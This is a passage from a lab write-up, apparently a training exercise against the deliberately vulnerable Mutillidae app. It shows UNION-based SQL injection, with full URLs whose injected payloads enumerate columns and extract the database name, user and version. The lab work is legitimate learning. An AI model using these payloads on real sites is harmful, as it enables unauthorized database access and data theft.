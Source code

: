 Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
## OUTPUT :
![alt text](<Screenshot 2025-05-25 221434.png>)
http://192.168.103.194/mutillidae/index.php?page=user-info.php&username=tharun%27union%20select%201,2,3,4,5%23&password=&user-info-php-submit-button=View+Account+Details

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.103.194/mutillidae/index.php?page=user-info.php&username=tharun2%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :
![alt text](<Screenshot 2025-05-25 221446.png>)
